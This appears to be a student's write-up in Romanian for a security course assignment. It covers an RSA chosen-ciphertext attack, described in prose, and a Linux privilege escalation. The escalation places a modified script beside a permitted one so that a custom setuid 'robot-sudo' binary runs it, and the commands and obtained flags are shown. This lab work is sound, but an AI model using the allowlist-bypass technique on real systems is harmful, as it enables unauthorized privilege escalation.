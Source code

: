 # TEMA 1 ISC -> ANCA-MARIA COLACEL

**Tema contine 3 taskuri. Le voi detalia pe fiecare in parte.**

## TASK1 - CRYPTO-ATTACK
In vederea rezolvarii acestui exercitiu a fost necesara completarea scriptului pus la dispozitie in arhiva.
Am inceput cu hinturile puse la dispozitie in cerinta si decodand din base64 KLT vahlxg vbiaxkmxqm tmmtvd am vazut ca se foloseste RSA chosen chiper attack. Celalalt nu era util :)
Am incercat sa decodez message.txt din b64 si am obtinut un json cu 3 campuri, n, e si flag, astfel am format chiper_dash-ul necesar algoritmului in urma aplicarii formulei. M-am gandit ca formatul in care trebuie trimise informatiile la server este tot json astfel ca formez noul json folosind chiper_dash-ul, l-am encodat si l-am trimis la server. Salvez raspunsul de la server, folosesc decode-unicode si apoi fac conversie din string in numar pt ca potrivit algoritmului trebuie sa impart la numarul random. Dupa ce fac impartirea practic obtin flagul dar in format numeric asa ca il convertesc in string si il printez. 
### FLAG: SpeishFlag{DCUuhc0WShG69E0H7kF6V2LIxLu7O2gi}

## TASK2 - LINUX ACL
 1) In primul rand ma conectez la userul janitor cu ssh.
    
    ```ssh -i id_rsa janitor@isc2023.1337.cx```

2) Dau urmatoarea comanda si gasesc fisierul hints.txt la calea /var/.hints.txt.

   ```find /var -type f -exec grep -l 'hints' {} +```
   
   Dau cat pe fisier si obtin:

   ```
   Here's more hints:
   - No ideas? Try to ltrace the setuid binaries!
   - Try to find the hidden config directory ;)
   - How does that custom sudo binary match the allowed command? How about its
    arguments?
   - You can add scripts to the same dir as sudo-permitted ones, but you cannot
    delete/modify them due to sticky bit :P

   ```

  3) Dupa ce ma uit prin fisiere observ ca de interes este fisierul robo-sudo acesta avand userul wallybot

   ```
   janitor@fhunt:/usr/local/bin$ ls -la         
   total 48
   drwxrwxr-t+ 1 root     root     4096 Dec  7 16:01 .
   drwxr-xr-x  1 root     root     4096 Oct  3 02:03 ..
   -rwxr-xr-x  1 janitor  janitor    74 Apr 10  2022 janitor-coffee.sh
   -rwxr-xr-x  1 janitor  janitor   228 Apr 10  2022 janitor-vacuum.sh
   -rwsr-xr-x  1 wallybot zboss   17408 Dec  7 16:01 robot-sudo
   -rwxr-xr-x  1 root     root      163 Apr 10  2022 vacuum-control

   ```

Dau strings pe robot-sudo si gasesc 
```

Please supply a command as argument!
Unable to determine current user! Exiting...
Hey, no shell injection please!
Invalid command given!
/.you.are.never/.gonnafindthis/r0b0t3rs.conf

```
deci am gasit fisierul cu permisiuni si din acesta gasesc regulile: 

```
allow wallybot /opt/.wellhidden/0b3y.b0ss
allow janitor /usr/local/bin/vacuum-control

```

Ca sa pot gasi flagul trebuie sa ma folosesc de /usr/local/bin/vacuum-control. 
Ma uit in /opt/.wellhidden/0b3y.b0ss unde gasesc de interes **ad002825749349601baafd654b5406e2Access denied!
I will contact you when I require your cleaning services, janitor!
Congratulations, here's your flag:cat /etc/opt/something/here.bin/.xyzflag**.
M-am gandit sa folosesc tokenul acesta

```
janitor@fhunt:/usr/local/bin$  /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
I will contact you when I require your cleaning services, janitor!

```

si am primit asta. 

4) Folosesc /usr/local/bin/vacuum-control in /usr/local/bin/vacuum-control-v1 si fac urmatoarea modifacare ca sa pot gasi flagul

```

`janitor@fhunt:/usr/local/bin$ cat vacuum-control-v1 
#!/bin/bash

if [[ $EUID -lt 7000 ]]; then
    echo "ERROR: Access denied!"
    exit 1
fi

/opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
cat /etc/opt/something/here.bin/.xyzflag

the rest of its implementation omitted / not important

janitor@fhunt:/usr/local/bin$ robot-sudo /usr/local/bin/vacuum-control-v1 /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
Congratulations, here's your flag:
SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}``

```

Am  modificat in script apoi am rulat ca si robot-sudo si am obtinut flagul.

### FLAG: SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}



   
   
    
 
 , 

